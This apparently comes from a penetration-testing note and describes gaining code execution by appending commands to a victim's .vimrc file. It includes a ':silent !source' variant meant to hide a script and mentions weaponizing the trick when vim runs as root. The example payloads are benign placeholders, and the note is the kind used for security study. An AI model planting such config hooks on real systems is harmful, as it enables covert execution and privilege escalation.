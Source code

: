 VIM config  file is located in .vimrc under the home users directory. 

If we can modify the .vimrc file, we append this to execute a bash command:

```
!touch /tmp/test.txt
```

If we want to be more stealthier, we can use the source command to execute a bash file instead of a single command, here's an example:

```
Append this to .vimrc file:

:silent !source /tmp/.vimrunscript   -> the :silent option is used to evade any posible debugging messages 

Contents of the /tmp/.vrimrunscript file:

#!/bin/bash
echo "We have code execution!" > /tmp/test.txt
```

If our victim runs VIM as root, we can weaponize it using the techinque above.

